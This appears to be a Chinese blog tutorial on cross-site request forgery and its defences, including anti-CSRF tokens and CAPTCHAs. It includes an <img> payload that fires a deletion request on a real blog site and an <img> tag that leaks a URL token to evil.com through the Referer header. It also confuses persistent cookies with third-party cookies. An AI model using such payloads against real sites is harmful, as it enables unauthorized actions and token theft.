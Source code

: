 ```yaml
---
title: Web安全系列——CSRF攻击
date: 2017-11-17 09:32:54
categories: Web安全
tags: [Web安全]
---
```


## CSRF简介
CSRF全称为Cross Site Request Forgery，翻译成中文是跨站点请求伪造，是攻击者通过伪装受信任的用户，来想网站发起请求的的一种恶意攻击。听起来很像XSS攻击，但是又与XSS攻击有着本质的不同。可以通过一个简单的例子了解CSRF攻击。  
<!-- more -->  

某个博客网站只需要在登录后，请求这个URL，即可删除编号为“2345”的博客。  

```
	http://blog.sohu.com/manage/entry.do?m=delete&id=2345
```

那么，这个URL就存在CSRF漏洞，可以被攻击者进行利用。攻击者在自己的网站中，插入一张图片，代码为

```
	<img src="http://blog.sohu.com/manage/entry.do?m=delete&id=2345" />
```

使`<img>`标签指向删除博客的URL,即可以删除该博客。  

## CSRF攻击与Cookie
虽然不利用Cookie也能进行CSRF攻击，但是绝大部分破坏力强的CSRF攻击离不开对Cookie的利用。  

浏览器的Cookie分为**两种**：一种是"Session Cookie",又称为”临时Cookie“，另一种是"Third-party Cookie",也成为”本地Cookie“。
两者的区别在于Cookie的**失效时间**。Session Cookie在浏览器关闭后，Session Cookie便马上失效。而Third-party Cookie在Set-Cookie的时候，指定了Expire时间，只有到过了Exipire的时间后，Third-party Session才会失效。  

显然，对于攻击者来说，Third-party Cookie比Session Cookie更加容易利用，从而进行CSRF攻击。因为，Third-party Cookie的有效时间更长，用户访问某个网站后，获取Third-party Cookie,那么在Third-party Cookie失效之前，用户都有遭受CSRF攻击的风险。  

而Session Cookie一般是存放在浏览器的内存中，浏览器关闭就自动失效。攻击者要利用Session Cookie进行攻击的话，还需要先诱使用户访问目标网站，是Session有效，才能进行下一步攻击。  
## 进一步探究Cookie
因为第三方Cookie容易被黑客利用，所以一些浏览器会拦截第三方Cookie的发送，如Edge:
![Edge浏览器中的Cookie设置](https://wx1.sinaimg.cn/mw690/857afa84gy1fll5gmzshwj20a00bl0sy.jpg)

这在某种程度上加大了CSRF攻击的难度。然而P3P Header又使浏览器可以发送第三方Cookie了。  

> P3P Header是W3C制定的关于隐私的标准。  

如在Set-Cookie的时候加上P3P头，那即使浏览器禁止发送第三方Cookie，第三方Cookie也会被发送。因此，对于CSRF的防御不能仅仅依赖浏览器对第三方Cookie的拦截。
## CSRF的防御
CSRF是一种难以识别的攻击，对于CSRF的防御可以采取以下措施。
### 验证码
CSRF攻击是伪造成用户的身份，自动发起恶意的请求。那么我们可以强迫攻击者与我们的网站进行交互。在一些操作之前加入验证码校验，可以抵御一部分的CSRF攻击。但是加入验证码会影响用户的体验，所以验证码不能作为主要的防御手段。
### Anti CSRF Token
CSRF攻击的原理，是攻击者伪装成用户身份，发起恶意请求。那么攻击者除了要伪装成功，还需要“猜”出请求的参数。那么如果我们在请求中，加入一个随机的Token，攻击者就永远没有办法”猜“出恶意请求的参数了，这就是Anti CSRF Token。  
Token参数最好放在一个表单中，而不是放在URL里面。比如以下URL。
  
```
	http://host/path/manage?username=abc&token=[random]
```

因为攻击者可以在当前页面植入恶意的脚本如：

```
<img src="http://evil.com/notexist">
```

则当前页面的  URL回作为HTTP请求的Refferer，发送到evil.com服务器上。因此，最好把Token放在表单中，把敏感操作由GET改为POST,这样可以增加黑客进行CSRF攻击的难度。  

一定要记住的一点是：** Anti CSRF Token 仅仅是用来防御CSRF攻击，而不能防御XSS攻击。XSS攻击必须要采用响应的防御手段。**